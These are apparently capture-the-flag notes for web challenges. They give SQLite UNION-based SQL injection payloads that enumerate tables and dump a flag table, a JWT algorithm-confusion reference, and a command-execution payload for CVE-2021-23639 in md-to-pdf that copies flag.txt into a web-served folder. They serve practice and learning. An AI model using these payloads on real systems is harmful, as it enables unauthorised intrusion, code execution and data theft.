 ## WEB

### Templeted

### LoveTok

### Toxic

### petpetrcb

### Under Construction
JWT Algorithm Confusion -> https://portswigger.net/web-security/jwt/algorithm-confusion

Next SQL Injection (SQLite3)
```
# Get Tables
user_in_database' union select name,NULL from sqlite_master where type='table' and name not like 'sqlite_%';-- 

# Get Columns
user_in_database' union select sql,NULL from sqlite_master where tbl_name = 'users' and type = 'table';--

# Get Flag
user_in_database' and 1=2 UNION SELECT *,NULL from flag_storage;--
```



### Blinker Fluids `CVE-2021-23639`
md-to-pdf < 5.0.0 RCE
Payload:
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
```
Payload for this challenge:
```
# In request:
"---js\n((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))\n---RCE;"

# In PDF editor on site:
---js
  ((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))
---RCE;

```
